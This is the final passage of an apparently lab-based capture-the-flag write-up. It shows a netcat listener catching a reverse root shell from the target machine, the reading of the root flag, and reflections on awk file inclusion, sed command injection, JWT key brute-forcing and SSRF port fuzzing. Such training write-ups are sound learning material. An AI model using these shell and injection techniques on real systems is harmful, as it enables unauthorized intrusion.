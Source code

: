 Looking back at the netcat listener on my own machine, the second one worked:

```bash
$nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.185] 33704
bash: cannot set terminal process group (874): Inappropriate ioctl for device
bash: no job control in this shell
root@awkward:~/scripts# ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  6 01:35 .
drwx------ 9 root root 4096 Oct 20 23:02 ..
-rwxr-xr-x 1 root root  145 Oct  5 22:02 express.sh
-rwxr-xr-x 1 root root  318 Sep 15 21:49 notify.sh
-rwxr-xr-x 1 root root  414 Oct  3 21:19 restore.sh
-rwxr-xr-x 1 root root   82 Oct  5 22:45 vue.sh
root@awkward:~/scripts# 
root@awkward:~/scripts# cd /root
cd /root
root@awkward:~# ls     	
ls
backup
root.txt
scripts
snap
root@awkward:~# cat root.txt
cat root.txt
b56c5ced67d9d8941f016654a3e27364

```

And we have the root flag finally!

## Conclusion

This one was quite time consuming and frustrating.  I stumbled on the `awk` LFI and `sed` command injection.  I have to remind myself when doing any kind of injection to always be mindful of the string I'm passing, and if possible, aim for it to be syntactically valid once injected -- otherwise the shelled out command may fail and we miss out on LFI or command injection.

It's easy to see something, get caught up in the excitement of it all and throw variations at it without carefully crafting a payload and considering whether or not commands are likely to error before we get what we need.

Brute forcing a weak JWT signing key was new to me, and the SSRF for the url param initially seemed obvious, but I was blocked for a little while before deciding to try fuzzing ports.   Once again, I needed to remind myself to not just blindly enumerate and fuzz, but look at the broader context and story -- which in this case, involved reminding myself that this was a development server running webpack dev server, and likely not deployed on production-like ports (80, 8080, etc).

I also spent way too much time trying to decompile the webpack bundle VueJS site (not shown in my notes above), hoping to get cleaner JavaScript for the purposes of finding available routes.  After trying a few tools unsuccessfully, in the end I just parsed the file manually (not fun).

Overall a fun machine though, even if it involved a couple of days on and off with regular breaks to step away from the frustration of hitting a brick wall multiple times.
